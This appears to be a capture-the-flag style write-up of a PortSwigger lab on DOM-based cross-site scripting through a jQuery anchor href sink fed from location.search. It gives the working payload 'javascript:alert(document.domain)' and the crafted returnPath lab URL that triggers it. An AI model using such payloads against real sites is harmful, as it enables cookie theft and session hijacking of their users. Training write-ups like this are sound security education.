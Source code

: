 # DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

## This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in the submit feedback page. It uses the jQuery library's `$` selector function to find an anchor element, and changes its `href` attribute using data from `location.search`.

## To solve this lab, make the "back" link alert `document.cookie`.

note: =>

## payload for href = javascript:alert(document.domain)

### step1

go to feedback form

https://0aa5003e040f5dabc06127b800800039.web-security-academy.net/feedback?returnPath=/feedback
and inspect feedback form
![screenshot](./images/lab5_feedback_form.png)

![screenshot](./images/lab5_feedback_form_ui.png)

change url

https://0aa5003e040f5dabc06127b800800039.web-security-academy.net/feedback?returnPath=/feedback
to

https://0aa5003e040f5dabc06127b800800039.web-security-academy.net/feedback?returnPath=test
` <a id="backLink" href="test">Back</a>`

now use payload
`javascript:alert(document.domain)`

https://0aa5003e040f5dabc06127b800800039.web-security-academy.net/feedback?returnPath=javascript:alert(document.domain)

![screenshot](./images/lab5_form_page_alert_popup.png)
